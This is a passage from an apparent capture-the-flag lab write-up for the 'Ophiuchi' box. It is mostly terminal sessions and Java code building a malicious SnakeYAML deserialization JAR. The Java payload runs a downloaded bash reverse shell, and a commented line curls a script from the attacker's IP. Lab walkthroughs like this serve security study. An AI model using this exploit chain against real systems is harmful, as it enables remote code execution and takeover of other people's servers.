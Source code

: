 ```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
```

Once downloaded the bash reverse shell on the target, it was necessary to execute it. To achieve the task the **AwesomeScriptEngineFactory.java** was edited once again, this time with the purpose to execute the previously uploaded bash script and provide a reverse shell.

Second payload:

```java
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ nano src/artsploit/AwesomeScriptEngineFactory.java

import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
        //Runtime.getRuntime().exec("curl http://10.10.14.24:443/rs.sh -o /tmp/rev.sh");
        Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	...
```

Compiled and hosted once again:

```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1563) (out= 431)(deflated 72%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1635) (out= 692)(deflated 57%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
```
